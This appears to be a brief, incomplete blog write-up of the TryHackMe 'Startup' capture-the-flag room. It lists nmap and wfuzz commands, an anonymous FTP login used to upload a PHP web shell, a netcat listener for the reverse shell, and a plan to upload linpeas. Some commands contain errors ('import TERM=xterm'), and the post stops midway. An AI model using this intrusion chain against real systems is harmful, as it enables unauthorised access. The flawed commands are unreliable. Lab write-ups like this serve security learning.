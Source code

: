 ```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....

file is a simple text file that associates IP addresses with hostnames, one line per IP address.

> sudo leafpad /etc/hosts

  ```
     ip   startup.thm
  ```
  
    sudo nmap -sC -sV startup.thm
     
    -sC is for running default scripts
    -sV is for enumerating version

<p align="left">
<img src="/assets/img/startup/nmap.png" width="350"/>
</p>

There are three ports are opened 

FTP login with username is anonymous and password is anonymous.

> ftp startup.thm

<p align="center">
<img src="/assets/img/startup/ftp-dir.png" width="350"/>
</p>

> get important.jpg
>
> get notice.txt

wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

phpshell.php

> put phpshell.php

 Check the ip addr
 
> nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  




